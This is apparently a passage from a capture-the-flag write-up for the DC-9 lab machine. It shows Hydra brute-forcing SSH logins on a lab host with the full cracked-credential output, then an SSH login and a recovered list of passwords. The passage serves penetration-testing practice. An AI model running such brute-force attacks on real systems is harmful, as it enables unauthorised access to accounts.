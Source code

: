 ```bash
cat creds | cut -d ':' -f2 > passwords.txt
```

```bash
hydra -L users.txt -P passwords.txt 192.168.34.5 ssh
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-09-23 13:27:05
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 289 login tries (l:17/p:17), ~19 tries per task
[DATA] attacking ssh://192.168.34.5:22/
[22][ssh] host: 192.168.34.5 login: chandlerb password: UrAG0D!
[22][ssh] host: 192.168.34.5 login: joeyt password: Passw0rd
[22][ssh] host: 192.168.34.5 login: janitor password: Ilovepeepee
[STATUS] 287.00 tries/min, 287 tries in 00:01h, 4 to do in 00:01h, 14 active
1 of 1 target successfully completed, 3 valid passwords found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-09-23 13:28:08
```

```bash
chandlerb:UrAG0D
joeyt:Passw0rd
janitor:Ilovepeepee
```

Login as janitor

```bash
ssh janitor@192.168.34.5
```

Enumerating we find the following directory

![Untitled](DC-9%205a1a383f004f41a7b065312771f311ab/Untitled%2014.png)

Inside we find the file passwords-found-on-post-it-notes.txt with the following passwords

```bash
BamBam01
Passw0rd
smellycats
P0Lic#10-4
B4-Tru3-001
4uGU5T-NiGHts
```

